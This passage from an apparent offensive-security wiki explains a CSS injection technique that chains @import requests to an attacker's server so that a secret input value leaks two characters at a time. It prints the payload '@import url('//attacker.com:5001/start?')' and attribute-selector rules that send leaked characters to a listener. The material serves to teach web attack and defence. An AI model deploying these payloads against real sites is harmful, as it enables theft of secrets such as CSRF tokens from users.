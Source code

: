 However, there is another clever technique that uses **CSS `@import`** to improve the quality of the technique.

This was first showed by [**Pepe Vila**](https://vwzq.net/slides/2019-s3\_css\_injection\_attacks.pdf) and it works like this:

Instead of loading the same page once and again with tens of different payloads each time (like in the previous one), we are going to **load the page just once and just with an import to the attackers server** (this is the payload to send to the victim):

```css
@import url('//attacker.com:5001/start?');
```

1. The import is going to **receive some CSS script** from the attackers and the **browser will load it**.
2. The first part of the CSS script the attacker will send is **another `@import` to the attackers server again.**
   1. The attackers server won't respond this request yet, as we want to leak some chars and then respond this import with the payload to leak the next ones.
3. The second and bigger part of the payload is going to be an **attribute selector leakage payload**
   1. This will send to the attackers server the **first char of the secret and the last one**
4. Once the attackers server has received the **first and last char of the secret**, it will **respond the import requested in the step 2**.
   1. The response is going to be exactly the same as the **steps 2, 3 and 4**, but this time it will try to **find the second char of the secret and then penultimate**.

The attacker will f**ollow that loop until it manages to leak completely the secret**.

You can find the original [**Pepe Vila's code to exploit this here**](https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231) or you can find almost the [**same code but commented here**.](./#css-injection)

{% hint style="info" %}
The script will try to discover 2 chars each time (from the beginning and from the end) because the attribute selector allows to do things like:

```css
/* value^=  to match the beggining of the value*/
input[value^="0"]{--s0:url(http://localhost:5001/leak?pre=0)}

/* value$=  to match the ending of the value*/
input[value$="f"]{--e0:url(http://localhost:5001/leak?post=f)}
```

This allows the script to leak the secret faster.
{% endhint %}

{% hint style="warning" %}
Sometimes the script **doesn't detect correctly that the prefix + suffix discovered is already the complete flag** and it will continue forwards (in the prefix) and backwards (in the suffix) and at some point it will hang.\
No worries, just check the **output** because **you can see the flag there**.
{% endhint %}

### Other selectors
